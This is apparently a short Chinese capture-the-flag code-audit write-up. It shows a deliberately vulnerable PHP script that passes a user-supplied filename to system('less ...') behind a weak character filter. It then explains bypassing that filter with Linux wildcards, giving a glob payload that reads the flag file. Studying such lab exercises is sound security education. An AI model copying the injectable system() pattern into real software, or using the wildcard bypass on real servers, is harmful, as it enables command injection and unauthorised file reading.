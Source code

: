 链接: https://t.zsxq.com/VrnQjeY

```
<?php
本地flag路径为 /data/sublime/php/audit/3/flag.txt

function waf($file){
    return preg_replace('/[a-z0-9.]/i', '', "$file");
}


$filename = $_GET['file'];
$file = waf($filename);
echo $file;
system('less '.$file);
```

过滤了`a-z0-9.` 这些字符，那么思路就应该是考察linux的通配符的问题了，查了一下linux的通配符


* - 通配符,代表任意字符(0到多个)

? - 通配符,代表一个字符

因此可以构造如下

		$filename = '/????/???????/???/?????/?/*'

当然中间几个?可以用*来代替，但是这样匹配的内容很很多
